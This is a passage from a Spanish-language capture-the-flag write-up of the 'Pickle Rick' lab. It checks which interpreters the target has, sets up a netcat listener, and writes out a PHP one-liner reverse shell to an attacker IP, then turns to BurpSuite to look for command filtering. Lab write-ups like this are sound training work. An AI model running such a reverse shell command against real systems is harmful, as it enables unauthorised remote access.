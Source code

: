 ![](/assets/images/PickleRick/image64.png)

No nos muestra nada cuando ejecutamos el comando, por lo tanto, no tiene el archivo binario ruby.

Ahora intentaremos con el archivo binario `php`.

![](/assets/images/PickleRick/imagen65.png)

Observamos que nos muestra la ruta del archivo binario php en el sistema objetivo, por lo tanto, si tiene el archivo binario php.

Ahora habilitamos el puerto 1500 en nuestra máquina para que esté en escucha y esperando la conexión entrante. Para ello utilizamos la herramienta `netcat`.Además, utilizamos el comando `rlwrap` para que la shell generada en nuestra máquina presenta funcionalidades como el autocompletado de comandos, historial de comandos, etc.

![](/assets/images/PickleRick/image033.png)

Ahora ejecutaremos el siguiente comando, que nos generará una conexión reverse shell hacia nuestra máquina:
`php -r '$sock=fsockopen("10.8.123.194",1500);exec("sh <&3 >&3 2>&3");'`

![](/assets/images/PickleRick/image67.png)

Pero observamos que no se nos genera una shell en el sistema objetivo, como resultado de la conexion reverse shell.La primera hipótesis que podemos hacer es que la aplicación web está filtrando los comandos que utilizan el archivo php. Para verificar esta hipótesis, utilizamos BurpSuite para capturar la solicitud POST HTML que hacemos al servidor web, para que cargue nuestro archivo PHP. Luego enviaremos la solicitud capturada a la ventana Repeater para poder observar la respuesta HTML que recibimos del servidor web.
